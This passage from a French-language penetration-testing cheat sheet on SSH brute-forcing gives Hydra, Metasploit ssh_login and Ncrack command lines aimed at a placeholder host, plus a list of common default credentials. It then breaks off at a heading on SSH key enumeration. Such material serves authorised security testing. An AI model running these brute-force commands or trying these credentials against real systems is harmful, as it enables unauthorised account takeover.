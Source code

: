 ```bash
hydra -l root -p password123 target.com ssh
```

#### Metasploit Brute Force
```bash
msfconsole

# 1. Module de brute force SSH
use auxiliary/scanner/ssh/ssh_login
set RHOSTS target.com
set USERNAME admin
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE true
run

# 2. Avec multiples users
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
run

# 3. Test credentials spécifiques
set USERNAME root
set PASSWORD toor
run
```

#### Ncrack
```bash
# 1. Basique avec wordlists
ncrack -p 22 --user admin -P passwords.txt target.com

# 2. Mode verbeux avec limitations
ncrack -v -p 22 -U users.txt -P passwords.txt target.com

# 3. Personnalisation timing
ncrack -p 22 --user root -P passwords.txt -T 3 target.com
```

### Credentials par Défaut à Tester
```bash
# Combinaisons classiques
root:root
root:toor  
root:password
admin:admin
admin:password
user:user
pi:raspberry        # Raspberry Pi
oracle:oracle       # Oracle systems
postgres:postgres   # PostgreSQL
```

## 🔑 Phase 4 : Énumération des Clés SSH
